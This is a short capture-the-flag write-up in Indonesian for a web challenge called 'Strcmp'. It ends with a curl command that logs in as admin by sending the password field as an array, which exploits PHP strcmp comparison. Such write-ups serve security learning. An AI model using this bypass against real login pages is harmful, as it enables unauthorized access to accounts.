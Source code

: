 ## Strcmp (Web Exploitation)

### Reference
- http://danuxx.blogspot.co.id/2013/03/unauthorized-access-bypassing-php-strcmp.html

### Proof of Concept
- Open website challenges - http://chall.ctfs.me:8002/strcmp/

Kita gali informasi dari website tersebut dengan view-source, maka terdapat clue ```guest:guest```.

- Step by Step
	- Login menggunakan username dan password *guest* akan tetapi terdapat pesan sebagai berikut ```Welcome Guest, to get flag you must login as admin```
	- Dari referensi diatas kita dapat menggunakan variable array, untuk bypass verifikasi login dari user *admin*.

- Capture the flag :triangular_flag_on_post:
```
>> curl -d "username=admin&password[]=&submit=Login" -X POST http://chall.ctfs.me:8002/strcmp/
```